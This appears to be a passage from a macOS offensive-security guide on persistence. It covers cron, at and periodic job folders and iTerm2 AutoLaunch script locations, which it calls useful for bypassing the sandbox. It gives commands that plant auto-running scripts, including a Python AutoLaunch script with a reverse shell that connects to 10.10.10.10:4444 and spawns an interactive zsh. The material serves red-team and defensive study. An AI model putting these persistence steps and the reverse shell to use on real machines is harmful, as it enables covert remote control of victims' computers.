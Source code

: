 In MacOS several folders executing scripts with **certain frequency** can be found in:

```bash
# The one with the cron jobs is /usr/lib/cron/tabs/
ls -lR /usr/lib/cron/tabs/ /private/var/at/jobs /etc/periodic/
```

There you can find the regular **cron** **jobs**, the **at** **jobs** (not very used) and the **periodic** **jobs** (mainly used for cleaning temporary files). The daily periodic jobs can be executed for example with: `periodic daily`.

To add a **user cronjob programatically** it's possible to use:

```bash
echo '* * * * * /bin/bash -c "touch /tmp/cron3"' > /tmp/cron
crontab /tmp/cron
```

### iTerm2

Writeup: [https://theevilbit.github.io/beyond/beyond\_0002/](https://theevilbit.github.io/beyond/beyond\_0002/)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)

#### Locations

* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`**
  * **Trigger**: Open iTerm
* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`**
  * **Trigger**: Open iTerm
* **`~/Library/Preferences/com.googlecode.iterm2.plist`**
  * **Trigger**: Open iTerm

#### Description & Exploitation

Scripts stored in **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`** will be executed. For example:

```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh" << EOF
#!/bin/bash
touch /tmp/iterm2-autolaunch
EOF

chmod +x "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh"
```

or:

```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
    async with iterm2.CustomControlSequenceMonitor(
            connection, "shared-secret", r'^create-window$') as mon:
        while True:
            match = await mon.async_get()
            await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
EOF
```
